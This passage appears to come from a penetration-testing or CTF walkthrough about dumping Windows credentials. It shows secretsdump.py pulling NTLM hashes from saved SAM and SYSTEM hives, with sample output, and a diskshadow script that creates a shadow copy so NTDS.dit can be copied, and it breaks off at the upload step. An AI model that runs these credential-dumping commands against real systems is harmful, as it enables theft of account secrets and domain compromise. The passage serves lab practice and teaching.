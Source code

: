 <br />

Now we can run `secretsdump.py`:

<br />

```bash
❯ secretsdump.py local -system SYSTEM -sam SAM
Impacket v0.12.0.dev1+20230909.154612.3beeda7 - Copyright 2023 Fortra

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```

<br />

## Reg Save: Dumping NTDS.DIT via Diskshadow & Robocopy

<br />

The second method involves using Windows built-in utilities: `Diskshadow` and `Robocopy`. 

`Diskshadow` creates copies of a currently used drive, while `Robocopy` copies files and directories from one location to another.

We cannot copy the system files directly using regular copy commands because they are always running and in use.

To do this, first we will create a `diskshadow.txt` file with the following content in our Linux system:

<br />

```bash
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup
```

<br />

Then, we format the file with `unix2dos` and upload it:

<br />

```bash
❯ unix2dos diskshadow.txt
unix2dos: convirtiendo archivo diskshadow.txt a formato DOS...
```
